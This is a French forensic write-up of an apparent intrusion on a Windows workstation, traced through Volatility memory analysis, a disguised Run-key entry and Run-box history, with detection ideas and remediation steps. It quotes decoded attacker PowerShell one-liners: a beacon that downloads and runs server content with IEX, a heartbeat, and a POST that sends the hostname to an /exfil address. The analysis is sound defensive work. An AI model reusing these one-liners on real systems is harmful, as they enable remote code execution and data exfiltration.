


# Reconstruction d'une intrusion sur un poste Windows : mémoire, registre et traces de l'opérateur

Investigation forensique sur **finance-ws**, un poste Windows (profil Volatility `Win2012R2x64`). Je n'ai ni alerte ni logs : seulement une **capture mémoire** (`finance-ws.vmem`, environ 5 Go) et quatre **hive de registre** (`SOFTWARE`, `SYSTEM`, `SAM`, `NTUSER.DAT`).

Outils : Volatility 2.6, Sysinternals `strings`, Registry Explorer, PowerShell.

## Ma façon de travailler

Une machine saine produit énormément de bruit répétitif. Une capture mémoire en contient encore plus : des millions de chaînes, dont presque aucune ne m'intéresse. Je ne peux donc pas chercher « ce qui est mal » au hasard. Je cherche **ce qui n'a pas sa place**, et je vérifie chaque indice avec une deuxième source.

À chaque trouvaille, je me pose trois questions :

1. Est-ce que c'est une preuve, ou du bruit légitime qui y ressemble ?
2. Si j'étais l'attaquant, où aurais-je laissé une autre trace ?
3. Est-ce que cette trace se retrouve ailleurs, dans une source indépendante ?

La deuxième question me fait passer d'une étape à la suivante. La troisième transforme un indice en conclusion.

---

## 1. Le point de départ : qui tourne, et qu'est-ce qu'ils lancent ?

Je commence par la liste des processus et leurs lignes de commande. Je ne filtre pas sur un nom précis : je regarde tout, puis je me concentre sur PowerShell, parce que c'est l'outil le plus utilisé pour exécuter du code sans fichier.

```
C:\Tools\Volatility\volatility_2.6_win64_standalone.exe -f C:\Case\Nordvale\memory\finance-ws.vmem --profile=Win2012R2x64 cmdline
```

Cinq `powershell.exe` sont en mémoire :

| PID | Parent | Ligne de commande |
|---|---|---|
| 4064 | 2860 | `powershell.exe` (aucun argument) |
| 1324 | 728 | `... -nop -w hidden -File "C:\ProgramData\Nordvale\diagcfg.ps1"` |
| 3872 | 1324 | (vide) |
| 2540 | 728 | `... -nop -w hidden -File "C:\ProgramData\Nordvale\agent.ps1"` |
| 2348 | 728 | `... -ExecutionPolicy Bypass -File "C:\Build\finish_build_static.ps1"` |

Je vérifie ensuite le chemin de l'exécutable lui-même (`dlllist`). Il est identique pour tous : `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`. **L'anomalie ne se trouve donc pas dans le programme, mais dans ce qu'il exécute.**

Ce qui attire mon attention :

- **`-nop -w hidden`** : pas de profil, fenêtre cachée. Un administrateur n'a pas de raison de lancer ses scripts comme ça.
- **`C:\ProgramData\Nordvale\`** : un dossier accessible en écriture, dont le nom reprend celui de l'organisation. Les noms `diagcfg` et `agent` ressemblent à des outils de diagnostic.
- **PID 4064**, sans argument : une console PowerShell ouverte à la main, probablement.
- **PID 3872**, vide et sans thread : un processus déjà terminé, fils de 1324.
- **PID 2348** : un script de build avec `Bypass`. Ça peut être légitime, je le garde de côté.

Mes deux candidats sont **1324** et **2540**. Je ne conclus rien sur leurs noms : j'ouvre leur mémoire.

### Je me mets à la place de l'attaquant

Si du code malveillant tourne dans ces processus, il est en mémoire, et PowerShell a dû le décoder avant de l'exécuter. Je vais donc lire ce que ces deux processus contiennent.

---

## 2. La mémoire des deux PowerShell

```
C:\Tools\Volatility\volatility_2.6_win64_standalone.exe -f C:\Case\Nordvale\memory\finance-ws.vmem --profile=Win2012R2x64 memdump -p 1324 -D C:\Users\investigator\output\process_dumps
```

Même chose pour 2540. Chaque dump fait environ 2,1 Go. J'en extrais les chaînes, en ASCII et en UTF-16, parce que Windows stocke beaucoup de texte en UTF-16 :

```
C:\Tools\Sysinternals\strings64.exe -accepteula -a -n 40 C:\Users\investigator\output\process_dumps\1324.dmp | Out-File -Encoding utf8 C:\Users\investigator\output\diagcfg_strings_ascii.txt
C:\Tools\Sysinternals\strings64.exe -accepteula -u -n 40 C:\Users\investigator\output\process_dumps\1324.dmp | Out-File -Encoding utf8 C:\Users\investigator\output\diagcfg_strings_unicode.txt
```

**Un premier piège.** Ma première extraction avait donné des fichiers qui ne contenaient rien d'utile. En les ouvrant, j'ai vu que `strings64.exe` avait écrit le texte de sa **licence** à la place des résultats : il demande l'acceptation de la licence au premier lancement, et sans `-accepteula` il s'arrête là. La redirection a tout capturé. Je relis donc toujours un fichier de sortie avant de conclure qu'une commande a marché.

### Première approche : les mots-clés

Je cherche `EncodedCommand`, `FromBase64String` et `-enc`. Un seul résultat pertinent :

```
powershell.exe -nop -w hidden -encodedcommand JABiAGUAYQBjAG8AbgA9ACcAaAB0AHQAcABz...
```

Un `-EncodedCommand` PowerShell est du **base64 d'un texte en UTF-16**. Je décode en CyberChef, je trouve :

```
$beacon='https://cdn.static-updater.tld/hb';$id='<clé masquée>';while($true){Start-Sleep 300;iwr "$beacon?k=$id" -UseBasicParsing}
```

C'est une requête HTTP toutes les 5 minutes vers un domaine, avec un identifiant. **Mais elle ne fait rien de la réponse** : c'est un signal de présence, pas un canal de commande. Je le note comme un indice, pas comme le cœur de l'attaque. Je le retrouverai à l'étape 4.

Pourquoi cette recherche n'a trouvé que ça ? Parce que la ligne contient justement le mot-clé que je cherchais. **Un payload encodé n'a aucune raison d'avoir un mot-clé à côté de lui.** Mes mots-clés ne pouvaient voir que ce qui était déjà étiqueté.

### Deuxième approche : chercher une forme, pas un mot

Je change de logique. Un bloc base64 a une forme reconnaissable : une longue suite de lettres, de chiffres, de `+` et de `/`. J'extrais **tous** les blocs d'au moins 60 caractères, je supprime les doublons, je décode chacun en UTF-16, et je ne garde que ceux qui donnent du texte 100 % lisible :

```
Select-String -Path 'C:\Users\investigator\output\diagcfg_strings_ascii.txt','C:\Users\investigator\output\diagcfg_strings_unicode.txt' -Pattern '[A-Za-z0-9+/]{60,}={0,2}' -AllMatches | ForEach-Object { $_.Matches.Value } | Sort-Object -Unique | Out-File -Encoding utf8 'C:\Users\investigator\output\diagcfg_b64.txt'
```

```
Get-Content 'C:\Users\investigator\output\diagcfg_b64.txt' | ForEach-Object { try { $t = [System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($_)); if ($t -match '^[\x20-\x7E\r\n]+$') { "---- $($_.Substring(0,30))..."; $t } } catch { } }
```

Le bruit se décode en caractères illisibles et disparaît. Il reste le script de présence vu plus haut, et un deuxième :

```
try { $C2='https://185.220.101.42:443';$key='<clé masquée>';$r=(iwr "$C2/beacon?k=$key" -UseBasicParsing -TimeoutSec 3);IEX $r.Content } catch {}
Start-Sleep -Seconds 999999
```

Ce script est bien plus intéressant :

| | Script de présence | Script avec `IEX` |
|---|---|---|
| Cible | un domaine (`cdn.static-updater.tld`) | une IP directe, port 443 |
| Fréquence | une requête toutes les 5 minutes | une requête, puis une très longue pause |
| Que fait-il de la réponse ? | rien | `IEX` : il **exécute** ce que le serveur renvoie |

Avec `IEX $r.Content`, le serveur peut faire exécuter n'importe quoi sur le poste : c'est un **beacon**, un canal de commande. La longue pause qui suit maintient le processus en vie. La mémoire en garde plusieurs copies légèrement différentes (une avec `99999`, une avec `999999`, et un fragment tronqué).

**Ce que je sais** : ce beacon apparaît dans le dump de **1324** (`diagcfg.ps1`). Le même traitement sur 2540 (`agent.ps1`) ne me montre que le script de présence.

**Ce que je ne peux pas prouver** : que 2540 n'en contient pas de trace. Une absence dans ma sortie n'est pas une preuve d'absence.

### Je me mets à la place de l'attaquant

Mon code tourne dans un PowerShell caché, uniquement en mémoire. Au prochain redémarrage, tout disparaît. Je cherche donc deux choses : **comment il reviendrait**, et **s'il a laissé du contenu ailleurs en mémoire**.

---

## 3. Les zones mémoire à protection anormale

Un processus normal charge son code depuis des fichiers (le `.exe`, les DLL) avec des droits de lecture et d'exécution. Il n'a presque jamais besoin d'une zone qui est à la fois **modifiable et exécutable**, et qui n'a **aucun fichier derrière** (une zone « privée »). C'est ce que cherche `malfind`, et c'est aussi ce que laisserait du contenu déposé de force dans un processus.

```
C:\Tools\Volatility\volatility_2.6_win64_standalone.exe -f C:\Case\Nordvale\memory\finance-ws.vmem --profile=Win2012R2x64 malfind
```

Il remonte **26 zones dans 7 processus** :

| Processus | Zones | Ce qu'elles contiennent |
|---|---|---|
| `svchost.exe` (1116) | 1 | des zéros |
| `Ec2Config.exe` (1164) | 5 | des structures du runtime et de petits relais de code |
| `WmiPrvSE.exe` (1660) | 1 | des zéros, avec le drapeau `DeleteInProgress` |
| `powershell.exe` (4064, 1324, 2348) | 5 chacun | les mêmes motifs qu'`Ec2Config.exe` |
| `powershell.exe` (2540) | 4 | trois d'aspect habituel et **une avec du texte** |

Ces alertes ne prouvent rien : `malfind` signale une zone sur ses **droits**, pas sur ce qu'elle contient. Le runtime .NET, qui compile du code à la volée, crée légitimement des zones de ce type, et PowerShell et `Ec2Config.exe` sont des programmes .NET. Je ne m'arrête donc ni au nom du processus ni au nombre de zones, et je regarde **le contenu**.

La plupart des zones sont du bruit :

- Des zéros, ou un en-tête répétitif (`ee ff ee ff 02 00 00 00`) que je lis comme une structure du runtime. Je n'ai pas décodé son format exact.
- Un petit relais de code qui se répète tel quel :

```
49 c7 c2 00 00 00 00 48 b8 50 4a 2a 3f f9 7f 00 00 ff e0
```

Une seule zone se distingue, dans `powershell.exe` **PID 2540**, à l'adresse `0x2da5ec0000` :

```
0x2da5ec0000  4d 5a 90 00 00 00 00 00 [32 octets ASCII : une clé de 32 caractères hexadécimaux] 00 00 00 00 00 00 00 00
```

Dans la colonne de droite, on distingue une séquence de caractères ASCII correspondant à une clé hexadécimale de 32 caractères. Le désassemblage proposé par `malfind` n'est pas pertinent ici : les octets sont interprétés comme des instructions, alors que cette zone commence par la signature `MZ` (`4D 5A`), caractéristique de l'en-tête d'un exécutable Windows au format PE. Cela indique que cette région mémoire contient vraisemblablement une image exécutable.

Pour extraire cette zone mémoire uniquement :

```
C:\Tools\Volatility\volatility_2.6_win64_standalone.exe -f C:\Case\Nordvale\memory\finance-ws.vmem --profile=Win2012R2x64 vaddump -p 2540 -b 0x2da5ec0000 -D C:\Users\investigator\output\region_2540
```

```
C:\Tools\Sysinternals\strings64.exe -accepteula -a -n 8 C:\Users\investigator\output\region_2540\powershell.exe.11e666900.0x0000002da5ec0000-0x0000002da5ec0fff.dmp
```

`strings` me donne la chaîne de 32 caractères hexadécimaux (masquée ici). Deux observations :

- Les adresses du nom de fichier (`0x2da5ec0000` à `0x2da5ec0fff`) font **4096 octets : une seule page**.
- La zone commence par `MZ` (l'en-tête d'un exécutable), mais ne contient que trois octets d'en-tête, puis du texte, puis des zéros. **Ce n'est pas un vrai exécutable** : c'est de la donnée.

**Ce que je comprends** : quelqu'un a déposé une donnée dans une zone qui n'a pas de raison d'en contenir. C'est une zone de stockage (*staging*), pas du code à exécuter. Et c'est ironique : le processus qui ne m'avait pas livré le beacon (2540) est celui qui garde cette zone.

**Ce que je ne sais pas** : comment la donnée est arrivée là. Elle peut avoir été écrite depuis un autre processus (une injection), ou allouée par PowerShell lui-même. Je n'ai pas d'événement qui permette de trancher, et je n'ai pas cherché de trace d'ouverture de processus.

**Une limite de l'outil** : `malfind` ne voit que les zones privées avec écriture et exécution. Un attaquant qui écrit en lecture/écriture puis bascule en lecture/exécution, ou qui remplace le contenu d'une DLL déjà chargée, passe sous son radar. Je prends donc ce résultat comme une présence confirmée, pas comme une preuve d'absence ailleurs.

### Je me mets à la place de l'attaquant

J'ai du code en mémoire et une donnée mise de côté. Tout ça disparaît au redémarrage. Il me faut un moyen de revenir : une **persistance**, et comme je veux qu'elle s'applique à toute la machine, pas seulement à un utilisateur, je la place dans le registre système.

---

## 4. Revenir après un redémarrage : une entrée déguisée dans `Run`

Une persistance valable pour toute la machine se trouve dans **HKLM**, donc dans la hive `SOFTWARE`, pas dans `NTUSER.DAT` (qui est propre à un utilisateur). Je charge `SOFTWARE` dans Registry Explorer et j'ouvre la clé `Run`, que Windows lit à **chaque ouverture de session**, pour n'importe quel utilisateur :



Trois valeurs :

| Nom | Donnée |
|---|---|
| `SecurityHealth` | un chemin sous `C:\Windows\System32\` |
| `RtkAudUService` | un chemin sous `C:\Windows\System32\` |
| `MicrosoftEdgeUpdaterCore` | `powershell.exe -nop -w hidden -enc ...` |

Les deux premières pointent vers des chemins plausibles pour des composants Windows et Realtek. Je ne les ai pas vérifiées une par une. La troisième a un nom crédible (la mise à jour d'Edge), mais **sa donnée la trahit** : un composant de mise à jour légitime n'a aucune raison de lancer PowerShell caché avec un payload encodé. Le nom ment, la commande non.

`RunOnce` est vide, ce qui est logique : une valeur de `RunOnce` s'efface après son premier lancement, et un attaquant qui veut durer préfère `Run`.

**Je recoupe avec la mémoire.** L'identifiant contenu dans cette entrée est celui de la ligne de commande trouvée à l'étape 2 (le script de présence vers `cdn.static-updater.tld`). Le même mécanisme existe donc à deux endroits indépendants : dans la mémoire des processus et dans le registre.

Ce que je **n'ai pas fait** : relever l'horodatage de la clé `Run` (le *last write time*, qui daterait l'installation), et vérifier les autres emplacements d'autostart (`Active Setup`, `Winlogon`, les services dans `SYSTEM`). Je me suis arrêté à la première entrée convaincante, ce que je ne ferais pas dans un vrai dossier.

### Je me mets à la place de l'attaquant

Je suis installé. Mais j'ai lancé du code, posé une persistance et déposé une donnée : à un moment, quelqu'un a dû **agir à la main**. Une action interactive laisse des traces dans le profil de l'utilisateur, pas dans la configuration de la machine.

---

## 5. L'opérateur : l'historique de la boîte Exécuter

Je charge `NTUSER.DAT` et j'ouvre `RunMRU`, qui garde l'historique des commandes tapées dans la boîte **Exécuter** (Win+R). Cet historique n'est pas un autostart : rien ne s'y exécute au démarrage. C'est une **trace de ce qu'un humain a lancé à la main**.



La position 0 est l'entrée la plus récente (la lettre en tête de `MRUList`) :

| Position | Valeur | Commande |
|---|---|---|
| 0 | `d` | `powershell -w hidden -enc ...` (ouverte le 2026-09-07 à 21:44:03) |
| 1 | `c` | `mmc compmgmt.msc` |
| 2 | `b` | `cmd` |
| 3 | `a` | `notepad.exe` |

Les trois dernières sont banales. La première ne l'est pas : elle est cachée et encodée. Je la décode comme avant :

```
$t='https://185.220.101.42/exfil';$k='<clé masquée>';iwr $t -Method POST -Body @{key=$k;host=$env:COMPUTERNAME} -UseBasicParsing
```

Elle envoie une clé et **le nom de la machine** en POST vers `185.220.101.42`, **la même adresse que le beacon de l'étape 2**. Deux sources indépendantes (la mémoire et le profil utilisateur) pointent vers la même infrastructure.

Ce que ça m'apprend :

- Quelqu'un était **présent sur la session**, au clavier ou par bureau à distance. Un service ou une tâche automatique ne passe pas par la boîte Exécuter.
- Le chemin s'appelle `/exfil`, mais **ce qui part ressemble à un enregistrement de la machine** (une clé et un nom d'hôte), plus qu'à un vol de données. Je ne vois pas de fichier envoyé.

---

## 6. Ce que j'en retiens

**Côté méthode**

- Chercher une **forme** plutôt qu'un mot-clé : un payload encodé n'est pas étiqueté.
- Une alerte n'est pas une preuve : `malfind` signale des droits, seul le contenu tranche.
- Ne jamais écarter un processus sur son nom, ni en retenir un pour la même raison.
- Relire chaque fichier de sortie avant de conclure qu'une commande a marché.
- Séparer ce que je **sais** de ce que je **suppose**.
- Recouper : le même mécanisme dans la mémoire et dans le registre, la même IP dans la mémoire et dans le profil utilisateur.

**Côté détection**, une idée par étape :

| Étape | Ce que je surveillerais |
|---|---|
| PowerShell caché avec un script dans `ProgramData` | création de processus (Sysmon 1, ou 4688) avec `-w hidden -nop` et `-File` pointant vers un dossier modifiable |
| Commande encodée | ligne de commande ou 4104 avec `-enc`, ou du base64 d'UTF-16 (blocs commençant par `JAB`) |
| Beacon HTTP | connexion sortante (Sysmon 3) d'un PowerShell vers une IP sans nom de domaine, ou requêtes régulières toutes les N secondes |
| Zone privée exécutable avec contenu inhabituel | un EDR qui voit les allocations mémoire (télémétrie ETW), ou une analyse mémoire à la demande |
| Entrée `Run` déguisée | écriture dans `HKLM\...\CurrentVersion\Run` (Sysmon 13) avec une valeur qui lance PowerShell |
| Présence d'un opérateur | pas une détection temps réel : un artefact de triage, à lister (`RunMRU`) lors de toute investigation |

---

## 7. Chronologie

Les dates ci-dessous viennent du dump et du registre. Je n'ai pas relevé celle de l'écriture de la valeur `Run`.

| Heure (UTC) | Événement | Source |
|---|---|---|
| 2026-09-07 21:41:45 | `powershell.exe` 4064 (console, parent 2860) | `pslist` |
| 21:44:03 | commande PowerShell cachée et encodée tapée dans Exécuter | `RunMRU`, `NTUSER.DAT` |
| 21:44:05 | `powershell.exe` 1324 (`diagcfg.ps1`, parent 728) | `pslist` |
| 21:44:07 | `powershell.exe` 3872 (parent 1324), vide, déjà terminé | `pslist` |
| 21:44:08 | `powershell.exe` 2540 (`agent.ps1`, parent 728) | `pslist` |
| 21:44:14 | `powershell.exe` 2348 (`finish_build_static.ps1`, parent 728) | `pslist` |
| Inconnue | création de la valeur `MicrosoftEdgeUpdaterCore` | non relevée |
| Inconnue | dépôt de la donnée dans la zone `0x2da5ec0000` | non relevée |

---

## 8. Interprétation

Ce qui suit est ma lecture entre les lignes, présentée comme telle.

**Un accès interactif, puis des processus automatiques.** La commande de la boîte Exécuter est à 21:44:03, deux secondes avant le démarrage de 1324, et les trois PowerShell de script se lancent entre 21:44:05 et 21:44:14. Je lis ça comme un opérateur qui lance ses outils à la main. **Je ne peux pas le prouver** : les trois PowerShell ont le même parent (PID 728) que je n'ai pas identifié, et la ligne de commande de 1324 n'est pas celle de la boîte Exécuter (un `-File`, pas un `-enc`). Identifier le PID 728 me dirait comment ils ont été lancés.

**Deux rôles pour deux scripts.** `diagcfg.ps1` (1324) porte le beacon, un canal de commande vers une IP. `agent.ps1` (2540) contient la zone avec la donnée déposée. Les noms `diagcfg`, `agent` et le dossier `Nordvale` imitent un environnement de diagnostic interne : de la dissimulation par le nom.

**Deux canaux, deux styles.** Le script de présence passe par un **domaine**, avec un rythme régulier de 5 minutes. Le beacon passe par une **IP directe**. Je suppose qu'un canal sert de signal discret et l'autre de commande, mais c'est une hypothèse.

**Une question ouverte qui me gêne.** La persistance que j'ai trouvée relance le script de **présence**, pas le beacon. Je n'ai rien trouvé qui relance le beacon après un redémarrage. Soit la persistance est ailleurs (je n'ai pas audité `Active Setup`, `Winlogon` ni les services), soit le script de présence sert à rétablir l'accès par un autre moyen, mais il ne traite pas la réponse du serveur. Je ne tranche pas.

**Ce que ces fichiers ne me disent pas.** Je n'ai ni disque, ni logs d'événements, ni trafic réseau. Je n'ai pas non plus exploré `SAM` (comptes locaux créés par l'attaquant). La capture est un instantané : je vois ce qui était en mémoire à ce moment-là, pas ce qui s'est passé avant.

**Ce que je ferais maintenant.**

1. Isoler `finance-ws`.
2. Récupérer les scripts de `C:\ProgramData\Nordvale\` pour les comparer à ce que j'ai décodé en mémoire.
3. Bloquer `185.220.101.42` et `cdn.static-updater.tld`, et chercher du trafic vers ces destinations dans les logs du pare-feu ou du proxy (en particulier un `POST` sur `/exfil`).
4. Supprimer la valeur `MicrosoftEdgeUpdaterCore` après en avoir gardé une copie.
5. Chercher cette valeur et ces scripts sur les autres postes.
6. Réinitialiser les identifiants de l'utilisateur de cette session.
7. Auditer les autres emplacements d'autostart et identifier le processus 728.